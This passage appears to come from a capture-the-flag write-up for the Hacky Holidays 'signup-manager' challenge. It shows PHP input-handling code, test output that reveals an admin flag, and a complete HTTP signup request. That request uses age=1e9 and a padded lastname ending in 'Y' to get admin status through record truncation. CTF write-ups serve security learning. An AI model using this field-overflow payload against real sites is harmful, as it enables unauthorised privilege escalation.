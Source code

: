 ```php
}

if (strlen($age) > 3) {
    echo  'Age entered is too long<br/>';
}

$age = intval($age);

addUser($username, $password, $age, $firstname, $lastname);

isAdmin();



?>

```

Output:

```
Here is the line variable value before substr($line,0,113)
test###########098f6bcd4621d373cade4e832627b4f6959ea94b27710517247388bd0bfcb36c1000000000aaaaaaaaaaaaaa#setiaaaaY######N

Here is the line variable value after substr($line,0,113)
test###########098f6bcd4621d373cade4e832627b4f6959ea94b27710517247388bd0bfcb36c1000000000aaaaaaaaaaaaaa#setiaaaaY 

Written successfully to user.txt
1
You are admin here is your flag{xxxxxxxx}
```

Let's try reproducing the same on the website:

```
POST /signup-manager/ HTTP/1.1
Host: hackyholidays.h1ctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 89
Origin: https://hackyholidays.h1ctf.com
Connection: close
Referer: https://hackyholidays.h1ctf.com/signup-manager/
Upgrade-Insecure-Requests: 1

action=signup&username=test&password=test&age=1e9&firstname=aaaaaaaaaaaaaa&lastname=setiaaaaY
```
The only thing we need to take care about is the length of the lastname value we are providing and also adding 'Y' at the end of it.
